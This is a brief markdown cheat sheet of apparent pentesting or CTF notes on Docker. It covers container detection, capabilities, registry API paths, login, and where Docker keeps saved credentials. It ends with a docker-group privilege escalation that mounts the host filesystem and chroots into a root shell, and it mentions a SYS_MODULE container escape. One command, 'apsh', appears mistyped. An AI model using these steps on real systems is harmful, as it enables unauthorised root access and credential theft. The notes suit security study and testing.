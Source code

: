 Docker and containers


## Want to know if you are inside a container in Linux ?

`cat /proc/self/cgroup`

---

## Capabilities provided to the container 

`apsh --print`

- If you have SYS_MODULE listed, you will be able to become root outside of the conatainer : https://blog.pentesteracademy.com/privilege-escalation-ctf-walkthrough-part-ii-b596f345ecd1

## Registry API

- in general in /v2/

- List repository : /v2/_catalog

- see docs.docker.com/registry/spec/api

---

## Login on docker

- install docker

- ```docker login <url>```

- if it needs certificate : ```mkdir -p /etc/docker/certs.d/url```, copy it inside, and login

---

## Password storing 

- ~/.docker/config.json or /root/.docker/config.json

---

## Run the container

- ```docker run -it url/<repository-image> sh```

---

## Privilege escalation

- Your user is in the docker group ? gtfobins docker :
- ```docker images```
- ```docker run -v /:/mnt --rm -it <image found> chroot /mnt sh```





